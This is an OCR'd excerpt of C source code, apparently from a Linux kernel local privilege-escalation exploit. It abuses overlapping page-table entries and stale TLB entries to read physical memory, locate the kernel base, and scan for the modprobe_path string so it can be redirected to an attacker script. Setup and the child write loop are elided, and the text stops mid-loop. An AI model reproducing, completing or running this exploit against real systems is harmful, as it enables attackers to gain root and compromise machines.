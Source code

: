 ```c
		.ip_dst.s_addr = inet_addr("255.255.255.255"),
	};
	int child_pid;

    // ... (setup)

	pin_cpu(0);
	child_pid = fork();

	if (child_pid == 0) {
		// PMD write loop (through IPC)
    } else {
		// allocate overlapping PUD (overlaps with PMD)

		
		memdump_info->mem_status = MEM_STAT_DO_UPDATE;
		SPINLOCK(memdump_info->mem_status == MEM_STAT_DO_UPDATE);
		
		// pud area is be overwritten using pmd area, but the TLB has not been flushed, so it is still cached with the old page
		// this flushed the kernel area of the pud
		flush_tlb(memdump_info, _pud_area, 0x400000);
		printf("[*] value for PUD page: %016llx\n", *(unsigned long long*)_pud_area);

		// get physical kernel base based on initial page's bytes
		// - this "kernel base" is actually the assembly bytecode of start_64() and variants
		// - it's different per architecture and per compiler (clang produces different signature than gcc)
		// - this can be derived from the vmlinux file by checking the second segment, which starts likely at binary offset 0x200000
		//   - i.e: xxd ./vmlinux | grep '00200000:'

		// run this script instead of /sbin/modprobe
		int modprobe_script_fd = memfd_create("", MFD_CLOEXEC);
		int status_fd = memfd_create("", MFD_CLOEXEC);
		
		for (int kernel_pud_pte_index=0; kernel_pud_pte_index < 512; kernel_pud_pte_index++) {
			// check for x64-gcc/clang signatures of kernel code segment at rest and at runtime
			if (is_kernel_base(pud_kernel_area + kernel_pud_pte_index * 0x1000) == 0)
				continue;
			
			memdump_info->kernel_addr = kernel_pud_pte_index * CONFIG_PHYSICAL_START;
			memdump_info->iteration_base = (unsigned long long)memdump_info->kernel_addr;
			printf("[+] found kernel phys addr: %016llx\n", memdump_info->kernel_addr);

			// scan 0x4000000 bytes from kernel base for modprobe path. if not found, just search for another kernel base
			for (int i=0; i < 40; i++) {
				void *pud_modprobe_addr;

				memdump_info->mem_status = MEM_STAT_DO_UPDATE;
				SPINLOCK(memdump_info->mem_status == MEM_STAT_DO_UPDATE);
				
				flush_tlb(memdump_info, _pud_area, 0x400000);
				PRINTF_VERBOSE("[*] scanning string '%s' @ %p in %016llx, pud val: %016llx...\n", modprobe_path, modprobe_path, memdump_info->iteration_base, *(unsigned long long*)pud_data_area);
				pud_modprobe_addr = memmem(pud_data_area, 0x200000, modprobe_path, KMOD_PATH_LEN);

				memdump_info->iteration_base += 0x200000;

				if (pud_modprobe_addr == NULL)
					continue;

```